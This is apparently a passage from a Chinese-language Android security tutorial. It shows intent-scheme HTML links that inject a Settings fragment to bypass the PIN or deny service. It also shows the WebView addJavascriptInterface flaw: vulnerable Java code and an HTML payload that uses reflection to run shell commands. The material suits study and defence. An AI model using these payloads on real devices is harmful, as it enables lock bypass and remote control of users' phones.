 ### 案例5：Fragment注入(绕过PIN+拒绝服务)
Fragment 这里只提一下，以后可能另写一篇。
```
<a href="intent:#Intent;S.:android:show_fragment=com.android.settings.ChooseLockPassword$ChooseLockPasswordFragment;B.confirm_credentials=false;
 launchFlags=0x00008000;SEL;action=android.settings.SETTINGS;end">
</a><br>
```
![](../pictures/androidac8.jpg)
```  
<a href="intent:#Intent;S.:android:show_fragment=XXXX;launchFlags=0x00008000;SEL;component=com.android.settings/com.android.settings.Settings;end">
</a><br>
```
![](../pictures/androidac9.jpg)  

### 案例6:webview RCE
```
<a href="intent:#Intent;component=com.gift.android/.activity.WebViewIndexActivity;S.url=http://drops.wooyun.org/webview.html;S.title=WebView;end">
</a><br>
```
![](../pictures/androidac10.jpg)
![](../pictures/androidac11.jpg)  

Webview 类是Android SDK 中封装的用于显示网页的组件，通过webview 组件应用可以轻松地开发内置浏览器访问网页，同时webview 组件中还提供了一些接口实现应用与页面中Javascript 脚本的交互，其中用于javascript 调用导出的java 类的 AddJavascripInterface 方法被发现存在远程命令执行漏洞，攻击者可以找到存在"getClass"方法的对象，然后通过反射的机制，得到Java Runtime对象，然后调用静态方法来执行系统命令。  

用户在使用包含此漏洞的应用访问特定的网页时会执行网页中的恶意代码，可导致手机被远程控制。相关漏洞代码示例如下：  
```
WebView webView = new WebView (R.id.webView1);
webView.getSettings().setJavaScriptEnabled(true);
webView.addJavascriptInterface(new TEST(), "demo");
webView.loadUrl("http://127.0.0.1/check.html");
```
Check.html 代码：  

``` html
<html>
<script>
function execute(cmd){
return demo.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(cmd);
}
execute(['/system/bin/sh','-c','echo  "hello" > /sdcard/check.txt']);
</script>
</html>
```
调用demo对象的getClass方法得到java.lang.Runtime对象，然后通过java反射机制调用getRuntime方法获得runtime实例，最终通过exec方法执行命令。代码执行成功会在SD卡根目录下生成check.txt文件。  
